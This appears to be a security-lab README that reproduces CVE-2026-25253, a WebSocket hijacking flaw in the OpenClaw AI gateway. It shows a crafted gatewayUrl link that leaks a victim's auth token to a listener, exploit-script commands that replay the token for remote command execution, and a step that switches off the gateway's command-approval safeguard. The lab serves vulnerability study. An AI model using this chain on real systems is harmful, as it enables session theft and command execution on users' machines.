

# OpenClaw Cross-Site WebSocket Hijacking (CVE-2026-25253)

[中文版本(Chinese version)](README.zh-cn.md)

[OpenClaw](https://github.com/openclaw/openclaw), also referred to as clawdbot, Moltbot, and in Chinese as 龙虾 / 小龙虾 🦞, is an open-source multi-channel AI gateway that runs on a local device and bridges messaging platforms with AI models. Its Control UI keeps an authenticated browser session to the local gateway and can reconnect automatically when the page is loaded.

## Overview

CVE-2026-25253 is a Cross-Site WebSocket Hijacking (CSWSH) issue in the OpenClaw Control UI, affecting clawdbot2026.1.28 and earlier releases. The Control UI accepts a `gatewayUrl` query-string parameter and immediately opens a WebSocket connection to that endpoint without sufficient validation or explicit user confirmation. An attacker can abuse this behavior to redirect the victim browser to an attacker-controlled WebSocket service, leak the authentication context carried in the initial `connect` frame, and then reuse the stolen token to hijack the local gateway session and reach arbitrary command execution.

The diagram below shows the full attack chain: `① the attacker sends a malicious URL to the victim`, `② the victim visits that URL and the browser leaks the token while auto-connecting to the attacker-controlled WebSocket endpoint`, and `③ the attacker replays the stolen token, pivots execution to the CLI Provider, and reaches RCE inside the local OpenClaw environment`.



At the implementation level, the full chain can be broken down into the seven technical steps below. RCE is still only possible after the attacker has already stolen a valid token via CSWSH.

| Step | Interface or action | Purpose |
| --- | --- | --- |
| 1 | Reconnect with the stolen token and `client.id="cli"` | Bypass the `secureContext` restriction and establish an attacker-controlled session |
| 2 | Call `config.get` | Read the gateway configuration and obtain the `baseHash` needed for the next patch |
| 3 | Call `config.patch` to inject a malicious `cliBackends` entry | Register `/bin/sh -c <payload>` as a callable CLI backend |
| 4 | Call `exec.approvals.set` | Set `security: "full"` and `ask: "off"` so command execution no longer waits for approval |
| 5 | Call `sessions.patch` to change the session model | Point `providerOverride` to the injected CLI backend |
| 6 | Call the `agent` method | Force the execution flow into `runCliAgent`, which directly reaches `spawn(command, args)` |
| 7 | Read the proof file from the container | Confirm that the command was executed inside the OpenClaw container |

## Environment Setup

In this directory, you can optionally run `python3 prerequisites.py` first to verify the local Python runtime, the `websockets` package, and Docker availability. After that, start the vulnerable OpenClaw2026.1.28 environment with:

```bash
python3 prerequisites.py
docker compose up -d
docker compose ps
```

Once the container is up, open the Control UI in a browser at one of the following addresses. The container entrypoint pre-populates the local login state, so the page usually comes up authenticated immediately:

```text
http://your-ip:18789/
http://localhost:18789/
```

If you have opened this lab before, clear the Local Storage entry for `http://localhost:18789` or use an incognito window before reproducing the issue. This avoids stale browser state that may keep the Control UI connected to an older gateway address. If you plan to run `ws.py` on a different machine, bind the listener to an IP address reachable from the victim browser instead of the default `127.0.0.1`.

## Vulnerability Reproduction

First, open `http://your-ip:18789/` or `http://localhost:18789/` and confirm that the Control UI is online. The two paths below are independent: the local WebSocket listener is the simplest option for a single-host lab, while CoNote is useful when you do not want to run a Python listener locally or need to inspect the captured WebSocket data remotely. Both paths capture the same leaked `connect` frame, so only one is required.

### Local WebSocket Listener Reproduction

Install the `websockets` dependency and start the local listener:

```bash
pip3 install websockets
python3 ws.py
```

By default, `ws.py` listens on `ws://127.0.0.1:8080` and prints a ready-to-use trigger URL. Open that URL in a **new tab of the same browser** where the Control UI session is already active. If you need to craft the URL manually, the default format is:

```text
http://your-ip:18789/?gatewayUrl=ws://127.0.0.1:8080
http://localhost:18789/?gatewayUrl=ws://127.0.0.1:8080
```

After the trigger page is opened, the Control UI is redirected to the attacker-controlled WebSocket endpoint and usually switches to an offline state. At the same time, the `ws.py` terminal prints the key fields from the victim's `connect` frame, including `auth.token`, `role: "operator"`, `scopes`, and `device`. When the listener prints `CSWSH token leak confirmed`, the authentication-context leak has been reproduced successfully.


With the leaked authentication context in hand, you can continue directly to the full CSWSH→RCE chain with the automated exploit script:

```bash
python3 poc.py --rce --cmd "id"
```

The script starts its own listener, captures the token, and continues through the remaining exploitation steps automatically. After the chain completes, the command output is read back from the container, as shown below.


### CoNote Reproduction

If you do not want to run a local listener, you can use [CoNote](https://conote.vulhub.org) as the attacker-controlled WebSocket endpoint. Sign in to CoNote, switch to the WebSocket module, and copy the unique listener URL created for your session. Use that full WebSocket URL as the value of the `gatewayUrl` parameter.

```text
http://your-ip:18789/?gatewayUrl=<your-conote-websocket-url>
```

Open the crafted URL in the **same browser** that already holds the authenticated Control UI session. The Control UI will automatically connect to the CoNote endpoint and send the full `connect` frame there. In the CoNote dashboard, you should see the same authentication-context fields demonstrated with the local listener path, including `auth.token`, `role`, `scopes`, and `device`. Once those fields appear in CoNote, the leak has been reproduced successfully through the remote listener path.


After CoNote captures the full `connect` frame JSON, pass that JSON directly to the `--token` argument of `poc.py`; there is no need to extract `auth.token` or any other field manually:

```bash
python3 poc.py --token '<full-connect-frame-json>' --rce --cmd "id"
```

The script parses the captured JSON, authenticates with the stolen context, patches the gateway configuration, disables the approval barrier, and triggers the final command execution step. Successful execution produces the expected command output in the terminal or inside the container, as shown below.


References:

- <https://nvd.nist.gov/vuln/detail/CVE-2026-25253>
- <https://github.com/openclaw/openclaw/security/advisories/GHSA-g8p2-7wf7-98mq>
- <https://security.snyk.io/vuln/SNYK-JS-OPENCLAW-15202445>
- <https://github.com/al4n4n/CVE-2026-25253-research>
